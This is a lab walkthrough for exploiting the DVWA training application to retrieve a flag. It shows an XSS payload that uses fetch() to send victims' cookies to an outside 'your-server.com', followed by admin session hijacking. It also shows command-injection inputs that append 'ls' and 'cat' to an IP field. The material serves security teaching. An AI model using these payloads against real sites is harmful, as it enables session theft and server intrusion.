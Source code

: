 # 13. Exploit web-app

### Exploiting Vulnerabilities to Retrieve the Flag  

**Approach 1: Exploiting XSS to Retrieve the Flag**  
Cross-Site Scripting (XSS) vulnerabilities can be exploited if a page on DVWA reflects user input without proper sanitization. Follow these steps to leverage XSS:  

#### Step 1: Log in to DVWA  
- Log in using your credentials.  
- Navigate to DVWA and set the security level to "Low" under the **DVWA Security** settings.  

#### Step 2: Navigate to an XSS Vulnerable Page  
- Go to **XSS (Stored)** or **XSS (Reflected)** from the DVWA sidebar.  

#### Step 3: Inject an XSS Payload  
**For XSS (Reflected)**:  
- In the input field (often labeled “Name”), enter an XSS payload to send data back to your server. Example:  
  ```html
  <script>fetch("http://your-server.com/log?data=" + document.cookie);</script>
  ```  
- This payload captures the user’s cookies and sends them to an external server you control.  

**For XSS (Stored)**:  
- Insert a similar payload into the message/comment field:  
  ```html
  <script>fetch("http://your-server.com/log?data=" + document.cookie);</script>
  ```  
- The payload will be stored and triggered whenever the page is loaded, allowing you to capture cookies from visiting users.  

#### Step 4: Access the Flag Page as an Admin  
- Use the stolen cookies to hijack an admin session.  
- Navigate to `page_id=108`. If the flag is restricted to admin users, this approach will grant access.  

---

**Approach 2: Exploiting Command Injection**  
If the DVWA setup includes a Command Injection vulnerability, you can directly extract sensitive information from the server.  

#### Step 1: Navigate to the Command Injection Page  
- Go to **Command Injection** from the sidebar menu.  
- This page usually includes a field for entering an IP address to test connectivity.  

#### Step 2: Test for Command Injection Vulnerability  
- Enter a test payload to verify vulnerability. Example:  
  ```
  127.0.0.1; ls
  ```  
- If successful, the output of the `ls` command (listing files in the directory) will be displayed, confirming the vulnerability.  

#### Step 3: Attempt to Access the Flag  
- Look for files with names suggesting sensitive content, such as `flag.txt`.  
- Use the following command to view the file's contents:  
  ```
  127.0.0.1; cat /path/to/flag.txt
  ```  
- Replace `/path/to/flag.txt` with the actual path revealed by the `ls` command.  

#### Step 4: Retrieve the Flag  
- If the file exists, the `cat` command will display its contents, allowing you to record the flag.  

---

### Summary  
1. **XSS Approach**: Inject malicious JavaScript on an XSS page to hijack the admin session and access `page_id=108`.  
2. **Command Injection Approach**: Exploit command injection to list server files and extract the flag using `cat`.  

These approaches highlight critical vulnerabilities and demonstrate the importance of proper input validation and sanitization in securing web applications.
